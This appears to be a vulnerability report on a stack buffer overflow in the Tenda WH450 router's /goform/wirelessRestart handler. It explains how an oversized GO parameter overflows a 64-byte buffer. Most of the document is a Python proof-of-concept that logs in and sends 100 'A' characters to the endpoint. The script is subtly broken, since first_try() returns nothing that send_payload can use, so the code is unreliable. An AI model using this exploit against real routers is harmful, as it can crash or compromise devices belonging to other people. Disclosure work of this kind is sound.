



# Bug Report: Buffer Overflow in Tenda WH450 V1.0.0.18 Router
A buffer overflow vulnerability has been discovered in the Tenda WH450 Router firmware version V1.0.0.18. The vulnerability exists in the `/goform/wirelessRestart` HTTP request handler and can be exploited remotely by unauthenticated attackers to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda WH450
- **Affected Version**: V1.0.0.18
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/wirelessRestart` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `GO`.



## poc



## Reproduce
```python
#!/usr/bin/env python3
import requests
import json

BASE_URL = "http://10.10.10.1"

global sess

def send_payload(method, payload, endpoints):
    
    headers = {
        "User-Agent": "PayloadSender/1.0",
    }

    print(f"[*]: Method={method}, Payload={json.dumps(payload)}")
    print("-" * 60)

    if isinstance(endpoints, str):
        endpoints = [endpoints]
    elif endpoints is None:
        endpoints = []

    for path in endpoints:
        full_url = f"{BASE_URL.rstrip('/')}/{path.lstrip('/')}"
        
        print(f"[*] Target: {full_url}")
        
        try:
            if method.upper() == "GET":
                resp = sess.get(full_url, params=payload, headers=headers, timeout=5, verify=False)
                print_result("GET", resp)
            
            else:
                try:
                    resp_json = sess.request(method, full_url, json=payload, headers=headers, timeout=5, verify=False)
                    print_result("JSON", resp_json)
                except Exception as e:
                    print(f"   [!] JSON Failed: {e}")

                try:
                    resp_data = sess.request(method, full_url, data=payload, headers=headers, timeout=5, verify=False)
                    print_result("DATA", resp_data)
                except Exception as e:
                    print(f"   [!] DATA Failed: {e}")

        except Exception as e:
            print(f"   [!] Failed: {e}")
        
        print("-" * 60)

def print_result(type_name, response):
    status = response.status_code
    length = len(response.text)
    
    flag = " [!]" if status in [200, 302, 500] else ""
    
    print(f"   [{type_name}] Status: {status} | Len: {length}{response.text}")

def login():
    login_url = BASE_URL + "/login/Auth"
    data = {
        "username": "",
        "password": "",
    }

    print("[*] logging in...")
    r = sess.post(login_url, data=data, allow_redirects=True)
    print(f"[*] final url: {r.url}")
    print(f"[*] status: {r.status_code}")

    print(f"[*] cookies after login: {sess.cookies.get_dict()}")

def first_try():
    """
    Primary payload - Buffer Overflow with 'A's
    
    Confidence: High
    
    Why it works: The function sub_42E648 allocates a 64-byte buffer (v3) on the stack,
    copies "/wireless_restart.asp?" (22 bytes) into it, and then concatenates the user-controlled
    "GO" parameter without any size checking. By providing a "GO" parameter longer than 42 bytes,
    we can overflow the buffer and potentially control execution flow.
    """
    
    method = "GET"
    
    # Create a payload that's longer than the available buffer space (64-22=42 bytes)
    # 100 'A's will overflow the buffer by 58 bytes
    payload = {
        "GO": "A" * 100
    }
    
    endpoint = "/goform/wirelessRestart"

if __name__ == "__main__":
    requests.packages.urllib3.disable_warnings()

    sess = requests.Session()

    login()

    send_payload(*first_try())
```